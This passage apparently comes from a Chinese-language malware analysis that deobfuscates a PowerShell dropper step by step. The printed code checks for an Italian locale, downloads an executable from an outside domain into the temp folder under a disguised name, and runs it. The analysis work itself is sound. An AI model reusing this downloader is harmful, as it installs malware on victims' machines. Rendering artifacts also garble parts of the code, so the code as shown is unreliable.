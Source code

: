 ```
 ((vari`A`BlE (“`{`1`}``{`0`}`” -f’r*’,’*md’)).”n`Ame”[3,11,2]-jOiN”) ((‘&amp;(iIm`{`0`}``{`1`}`iIm-f6c0wr6c0,6c0it’+’e’+(“`{`9`}``{`4`}``{`1`}``{`10`}``{`0`}``{`7`}``{`5`}``{`6`}``{`8`}``{`2`}``{`3`}`”-f’00000000′,’0′,’000;&amp;’,'(‘,’) 0′,’00’,’0′,’0000000′,’00000′,’6c0′,’0′)+’iIm`{`1`}``{`0`}`iIm-f 6c0p6c0,6c0slee6c0) (5*20);i’+(((“`{`6`}``{`5`}``{`2`}``{`4`}``{`0`}``{`3`}``{`7`}``{`8`}``{`1`}``{`9`}`”-f ‘+’,’0Xb’,’ ((6c0HKC’,’6c0′,’6c0′,’6c0)’,’f((&amp;(6c0gp’,’U:6c0+’,’6c’,’D’)))+(“`{`7`}``{`0`}``{`8`}``{`2`}``{`3`}``{`9`}``{`1`}``{`6`}``{`4`}``{`5`}``{`10`}`” -f’6c0+6′,’c0b’,’6c0′,’+6c0′,’c0+6c0Deskt6c0+’,’6c’,’D6′,’Con’,’c0trol ‘,’PanelX6c0+6′,’0op6c’)+(“`{`8`}``{`10`}``{`6`}``{`2`}``{`1`}``{`0`}``{`9`}``{`3`}``{`7`}``{`4`}``{`5`}`”-f ‘(‘,’E’,’c’,’CHar]88′,’]98′,’+[CHar]’,’la’,’+[CHar’,’0) -cRE’,'[‘,’p’)+(((“`{`1`}``{`0`}``{`2`}`” -f’8),[C’,’6′,’Har’)))+’]92) o6F .(iIm`{`0`}``{`1`}`iIm-f 6c0Sele6c0,6c0ct6c0) -Property (6c0*6c0)).iImprEFEr4xTRE4xTD’+(“`{`0`}``{`1`}``{`2`}`” -f’U4x’,’T’,’I4xTl’)+(“`{`0`}``{`3`}``{`1`}``{`2`}`” -f ‘A’,’UAG’,’esiIm’,’NG’)+(((“`{`0`}``{`2`}``{`1`}``{`3`}`”-f’ -l’,’ke (‘,’i’,’6c0′)))+’*t-6c0+6c0I*6c0))`{`lH0`{`gO`}`’+(((“`{`3`}``{`1`}``{`14`}``{`2`}``{`16`}``{`7`}``{`0`}``{`6`}``{`5`}``{`9`}``{`12`}``{`10`}``{`13`}``{`4`}``{`11`}``{`8`}``{`15`}`” -f’6c0′,’c0htt’,’c0+6c0//’,’=(6′,’fo’,’tindef.6′,’a’,’d6c0+’,’/6c0+6c0///6c0+6c0/6c0+6c0/6c’,’c’,’c0in6c0+6c’,’6c0+6c0/’,’0+6′,’0′,’ps:6′,’0+6c0′,’newup’)))+(“`{`3`}``{`5`}``{`0`}``{`1`}``{`2`}``{`4`}`”-f ‘..6′,’c0+’,’6c0..6c’,’/….6c0+6c0′,’0+’,’..’)+(“`{`1`}``{`0`}``{`2`}``{`3`}`” -f ‘c0.e6c0+’,’6′,’6c0x’,’e’)+’6c0),iImiIm;foreach(lH0`{`u`}` in lH0`{`G4xTO`}`)`{`Try`{`lH0`{`R4xTI`}` = iImlH0env:temp8SdTwain002.exei’+’Im;lH0`{`k4x’+’Tl`}` ‘+’= &amp;(iIm`{`1`}``{`2`}``{`0`}`iIm -f6’+’c0ect6c0,6c0New-O6c0,6c0bj6c0) (iIm`{`5`}``{`4`}``{`1`}``{`‘+’0`}``{`3`}``{`2`}`iIm-f6c0eb6c0,6c0tem.Net.W6c0,6c0t6c0’+’,6c0Clien6c0,6c0s6c0,6c0Sy6c0);lH0`{`K4xTL`}`.iImHEA4xTDErsiIm.(iIm`{`0`}``{`1`}`iIm-f 6c0Ad6’+(((“`{`17`}``{`26`}``{`11`}``{`0`}``{`6`}``{`16`}``{`20`}``{`1`}``{`3`}``{`23`}``{`9`}``{`13`}``{`8`}``{`22`}``{`18`}``{`19`}``{`4`}``{`14`}``{`15`}``{`21`}``{`25`}``{`24`}``{`2`}``{`5`}``{`12`}``{`7`}``{`10`}`”-f’c’,’e((6c0′,’c0Win’,’use’,’,(6c0Moz’,’dow6′,’0′,’0+’,’-age’,’c0+’,’6c’,’,6′,’c’,’6c0r’,’illa6c0′,’+’,’d’,’c’,’6c0′,’t6c0)’,’6c0).Invok’,’6c0/5.’,’n6c0+’,’6′,’0+6′,’0 (6c’,’0′)))+(“`{`5`}``{`1`}``{`9`}``{`7`}``{`12`}``{`2`}``{`0`}``{`11`}``{`8`}``{`3`}``{`6`}``{`10`}``{`4`}`”-f ‘6’,’0+’,’in’,’6c0+6c0 ‘,’ ‘,’0s6c’,’x64;6′,’ NT 10.0; ‘,’;’,’6c0′,’c0+6c0′,’4′,’W’)+(“`{`6`}``{`2`}``{`0`}``{`5`}``{`4`}``{`7`}``{`1`}``{`3`}`” -f’r’,’v:’,’0+6c0′,’66.06c0+6′,’+6c’,’6c0′,’6c’,’0′)+(((“`{`2`}``{`6`}``{`3`}``{`0`}``{`5`}``{`4`}``{`1`}`”-f’0+’,’+’,’c0) Gec6c0+6′,’0k6c’,’6c0′,’6c0o’,’c’)))+(“`{`2`}``{`4`}``{`8`}``{`6`}``{`1`}``{`5`}``{`0`}``{`3`}``{`7`}`”-f ’00’,’c0+6′,’6c0/206c0+’,’6c0+’,’6′,’c’,’016′,’6′,’c’)+(“`{`1`}``{`0`}`”-f’001′,’c’)+(“`{`0`}``{`1`}``{`2`}`”-f ‘6’,’c0+6c’,’0′)+(“`{`1`}``{`0`}``{`2`}`”-f ‘+6′,’016c0′,’c0 Fi’)+(((“`{`0`}``{`6`}``{`9`}``{`4`}``{`8`}``{`2`}``{`7`}``{`3`}``{`5`}``{`1`}`”-f’re6′,’006c0))’,’6′,’6c0+6′,’/’,’c’,’c0+6c’,’c0+6c06.’,’6′,’0fox’)))+’;lH0`{`KL`}`.(iIm`{`2`}``{`1`}``{`3`}``{`0`}`iIm -f6c0e6c0,6c0nload6c0,6c0Do’+’w6’+’c0,6c0Fil6c0).Invoke(lH0`{`u`}`’+’, lH0`{`rI’+’`}`);if((lH0`{`hO4xTst`}`.iImCurr’+’4xTentc4xTUl4xTTuREiImo6F .(iIm`{`1`}``{`0`}``{`2`}`iIm-f6c0t-Str’+(((“`{`2`}``{`5`}``{`0`}``{`8`}``{`3`}``{`4`}``{`10`}``{`6`}``{`7`}``{`9`}``{`1`}`” -f ‘0,6’,’0*a6c0′,’6′,’Ou6c0,’,’6c0′,’c’,’0)) -li’,’ke (‘,’c0′,’6c’,’ing6c’)))+’+6c0li*6c0))`{`&amp;(iIm`{`0`}``{`1`}`iIm-f6c’+’0’+(“`{`3`}``{`2`}``{`1`}``{`0`}`” -f’0ps’,’c0,6c’,’6′,’Sa’)+’6c0’+’) lH0`{`RI`}`;break`}``}`Catch`{`.(iIm`{`‘+’2`}``{`1`}``{`3`}``{`0`}`iIm-f 6c0ost6c0,6c0te-6c0,6c0Wri6c0,6c0H6c0) lH0`{`_`}`.iImExce4xTPt4xTiON’+(“`{`1`}``{`2`}``{`3`}``{`0`}``{`4`}`”-f’s’,’i’,’Im.iIm’,’ME’,’4xTs4xTAgE’)+’iIm`}``}``}`’).”r`EpLAcE”(([cHAR]111+[cHAR]54+[cHAR]70),[stRiNg][cHAR]124).(‘r’+’eplA’+’cE’).Invoke(‘8Sd’,’’).”R`E`PLace”(([cHAR]52+[cHAR]120+[cHAR]84),[stRiNg][cHAR]96).”REp`la`Ce”(([cHAR]105+[cHAR]73+[cHAR]109),[stRiNg][cHAR]34).”r`e`pLaCE”(‘lH0’,[stRiNg][cHAR]36).”r`EplA`Ce”(([cHAR]54+[cHAR]99+[cHAR]48),[stRiNg][cHAR]39))
```

至此，代码已经相对清晰了。我们注意到，有一些额外的替换操作来混淆代码，因此，我们进入混淆的最后一步：

```
代码片段10:
&amp;(“`{`0`}``{`1`}`”-f’wr’,’ite’) 00000000000000000000000000000;&amp;(“`{`1`}``{`0`}`”-f ‘p’,’slee’) (5*20);if((&amp;(‘gp’) ((‘HKC’+’U:’+’XbDCon’+’trol ‘+’PanelX’+’bD’+’Deskt’+’op’) -cREplacE([CHar]88+[CHar]98+[CHar]68),[CHar]92) | .(“`{`0`}``{`1`}`”-f ‘Sele’,’ct’) -Property (‘*’)).”prEFEr`RE`DU`I`lANGUAGes” -like (‘*t-‘+’I*‘))`{`$`{`gO`}`=(‘https:’+’//newupd’+’atindef.’+’in’+’fo’+’//’+’///’+’/’+’/’+’/….’+’….’+’..’+’.e’+’xe’),””;foreach($`{`u`}` in $`{`G`O`}`)`{`Try`{`$`{`R`I`}` = “$env:tempTwain002.exe”;$`{`k`l`}` = &amp;(“`{`1`}``{`2`}``{`0`}`” -f’ect’,’New-O’,’bj’) (“`{`5`}``{`4`}``{`1`}``{`0`}``{`3`}``{`2`}`”-f’eb’,’tem.Net.W’,’t’,’Clien’,’s’,’Sy’);$`{`K`L`}`.”HEA`DErs”.(“`{`0`}``{`1`}`”-f ‘Ad’,’d’).Invoke((‘use’+’r-agen’+’t’),(‘Mozilla’+’/5.0 (‘+’Window’+’s’+’ NT 10.0; Win64;’+’ x64;’+’ ‘+’r’+’v:66.0’+’) Gec’+’k’+’o’+’/20’+’1’+’0’+’01’+’01’+’ Fire’+’fox/6’+’6.’+’0′));$`{`KL`}`.(“`{`2`}``{`1`}``{`3`}``{`0`}`” -f’e’,’nload’,’Dow’,’Fil’).Invoke($`{`u`}`, $`{`rI`}`);if(($`{`hO`st`}`.”Curr`entc`Ul`TuRE”| .(“`{`1`}``{`0`}``{`2`}`”-f’t-Str’,’Ou’,’ing’)) -like (‘*a’+’li*’))`{`&amp;(“`{`0`}``{`1`}`”-f’Sa’,’ps’) $`{`RI`}`;break`}``}`Catch`{`.(“`{`2`}``{`1`}``{`3`}``{`0`}`”-f ‘ost’,’te-‘,’Wri’,’H’) $`{`_`}`.”Exce`Pt`iON”.”MEs`s`AgE”`}``}``}`
```
